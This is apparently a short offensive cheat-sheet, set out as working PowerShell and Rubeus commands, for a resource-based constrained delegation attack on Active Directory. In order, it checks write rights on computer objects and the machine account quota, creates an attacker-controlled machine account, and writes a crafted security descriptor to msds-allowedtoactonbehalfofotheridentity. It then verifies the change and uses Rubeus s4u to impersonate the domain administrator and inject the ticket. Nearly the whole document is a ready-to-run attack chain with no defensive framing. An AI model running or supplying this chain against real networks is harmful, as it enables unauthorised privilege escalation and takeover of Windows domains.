 * Need GenericWrite from user to computer

```
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

* Check Quota
```
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
```

* Powermad 
```
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
```

```
Get-DomainComputer -Identity myComputer
```

* craft msds-allowedtoactonbehalfofotheridentity
```
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity [computername] | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

* Possible with GenericAll, WriteProperty, or WriteDACL


* verify
```
$RBCDbytes = Get-DomainComputer [computername] -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
ConvertFrom-SID [SID]   (This should be [domain]\myComputer$)
```

* attack
```
Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/[target fullname] /ptt
```
